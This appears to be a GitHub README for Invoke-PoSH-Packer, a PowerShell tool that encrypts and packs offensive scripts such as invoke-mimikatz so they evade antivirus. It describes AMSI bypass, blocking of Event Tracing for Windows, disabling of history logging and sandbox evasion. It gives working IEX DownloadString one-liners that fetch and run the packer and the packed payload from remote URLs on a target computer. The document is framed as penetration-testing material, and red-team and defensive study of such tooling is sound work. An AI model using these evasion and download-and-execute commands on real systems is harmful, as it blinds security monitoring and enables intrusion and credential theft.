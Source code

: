 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Jean-Francois-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-Packer/Invoke-PoSH-Packer.ps1');

[*] Then "pack/obfuscate" a PowerShell script stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox

[*] Or download and "pack/obfuscate" a PowerShell script stored on a remote web server (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
